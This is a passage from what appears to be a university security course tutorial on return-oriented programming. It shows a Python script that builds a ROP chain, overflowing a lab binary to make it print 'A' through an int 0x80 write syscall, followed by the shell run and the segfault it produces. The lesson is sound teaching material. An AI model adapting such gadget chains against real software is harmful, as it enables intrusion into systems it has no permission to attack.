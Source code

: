# Completing the Exploit

Now that you've seen what the game is like, we can finish this exploit
and write an 'A' to stdout. At this point it is only a matter of finding
the right gadgets:

``` example
user@si485H-base:demo$ cat print_A_rop.py
#!/usr/bin/python

from struct import pack

p = '+'*(0x70) #padding

#Write an A to 0x080ea060
p += pack('<I', 0x0806e97a) #pop edx; ret
p += pack('<I', 0x080ea060) #address to write to
p += pack('<I', 0x080bb746) #pop eax; ret
p += pack('<I', 0x41414141) #'AAAA'
p += pack('<I', 0x0808fc26) # mov [edx],eax;pop ebx;ret
p += pack('<I', 0xdeadbeef) #  filler for pop ebx, will be adjust to 0x01 below

#Set eax to 0x4 and ebx to 0x1
p += pack('<I', 0x080584a6) # : xor eax, eax ; pop ebx ; ret
p += pack('<I', 0xffffffff)# set ebx to 0xfffffff
p += pack('<I', 0x080e2593) #: add al, 2 ; inc ebx ; ret (ebx=0xffffffff+1 = 0x00000000)
p += pack('<I', 0x080e2593) #: add al, 2 ; inc ebx ; ret (ebx=0x00000000+1 = 0x00000001)

#Set ecx to 0x080ea060
p += pack('<I', 0x080e4c5d) # pop ecx ; ret
p += pack('<I', 0x080ea060) #address of AAAA


#set edx to 0x1
p += pack('<I', 0x0806e97a)# pop edx ; ret
p += pack('<I', 0xffffffff)# set edx to 0xfffffff
p += pack('<I', 0x0805d0e7)# : inc edx ; ret
p += pack('<I', 0x0805d0e7)# : inc edx ; ret (now edx is 0x1)

#call interupt
p += pack('<I', 0x0806f040) # int 0x80; ret

p += pack('<I', 0xcafebabe) # <-- segfault here

print p 
```

And then we can run it:

``` example
user@si485H-base:demo$ ./vulnerable `python print_A_rop.py`
Buf: ++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++z`F?
                                                                                                                        AAAAﾭަ??????]`z??????@????
ASegmentation fault (core dumped)
user@si485H-base:demo$ dmesg | tail -1
[1564247.938610] vulnerable[11157]: segfault at cafebabe ip cafebabe sp bffff654 error 15
```
